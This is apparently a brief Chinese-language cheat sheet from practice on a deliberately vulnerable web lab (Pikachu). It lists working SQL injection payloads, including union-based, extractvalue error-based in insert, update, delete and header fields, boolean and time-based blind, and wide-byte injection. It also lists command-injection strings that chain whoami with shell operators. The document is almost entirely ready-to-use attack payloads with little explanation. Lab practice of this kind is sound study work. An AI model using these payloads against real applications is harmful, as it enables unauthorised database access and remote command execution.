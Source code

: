 闭合

```js
?name=z') union select 1,2--+&submit=%E6%9F%A5%E8%AF%A2
```

### insert/update注入

```sql
sex=girls&phonenum=18656565545' or extractvalue(0x0a,concat(0x0a,(select database()))) or '&add=usaxxxx&email=kobe%40pikachu.com&submit=submit
```

### delete注入

```sql
?id=58+and+extractvalue(0x0a,concat(0x0a,(select+database())))
```

### http header注入

```js
' or extractvalue(0x0a,concat(0x0a,(select database()))) or '
```

### 布尔盲注

```js
?name=lucy' and if(1>2,1,0)--+&submit=%E6%9F%A5%E8%AF%A2
```

### 时间盲注

```sql
?name=lili' and if(3>2,sleep(5),0)--+&submit=%E6%9F%A5%E8%AF%A2
```

### 宽字节注入

```sql
name=lucy%df%27 union select 1,2--+&submit=%E6%9F%A5%E8%AF%A2
```

## RCE

### exec ping

```js
12 || whoami 两个都会执行
12 | whoami  第一个为假 执行第二个

127.0.0.1 && whoami 都会执行
127.0.0.1 && whoami 都会执行

12 && whoami 执行第一个
12 & whoami 两个都执行
```
